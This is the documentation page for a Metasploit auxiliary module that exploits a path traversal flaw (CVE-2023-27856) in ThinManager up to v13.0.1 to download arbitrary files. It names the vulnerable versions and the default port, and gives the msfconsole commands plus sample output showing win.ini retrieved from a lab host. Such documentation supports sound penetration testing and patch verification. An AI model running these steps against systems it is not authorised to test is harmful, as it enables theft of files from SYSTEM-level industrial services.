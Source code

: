 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.0.1 (CVE-2023-27856) to download an arbitrary file from the
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

**Limitation**: Some files may get mangled by the application during transit.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v11.1.4 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/gather/thinmanager_traversal_download 
msf auxiliary(gather/thinmanager_traversal_download) > set RHOSTS <IP>
msf auxiliary(gather/thinmanager_traversal_download) > set FILE <file to download>
msf auxiliary(gather/thinmanager_traversal_download) > run
```

This should retrieve the file as specified through FILE from the remote server.

## Options

### FILE
The file to download from the remote server.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(gather/thinmanager_traversal_download) > run
[*] Running module against 192.168.137.227

[*] 192.168.137.227:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.227:2031 - The service is running, but could not be validated.
[*] 192.168.137.227:2031 - Sending handshake...
[*] 192.168.137.227:2031 - Received handshake response.
[*] 192.168.137.227:2031 - Requesting /Windows/win.ini from 192.168.137.227
[+] 192.168.137.227:2031 - Received response from target.
[*] 192.168.137.227:2031 - File saved as loot: /home/asdf/.msf4/loot/20250506150022_default_192.168.137.227_thinmanager.file_334213.txt
[*] Auxiliary module execution completed

msf auxiliary(gather/thinmanager_traversal_download) > cat /home/asdf/.msf4/loot/20250506150027_default_192.168.137.227_thinmanager.file_381967.txt
[*] exec: cat /home/asdf/.msf4/loot/20250506150027_default_192.168.137.227_thinmanager.file_381967.txt

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
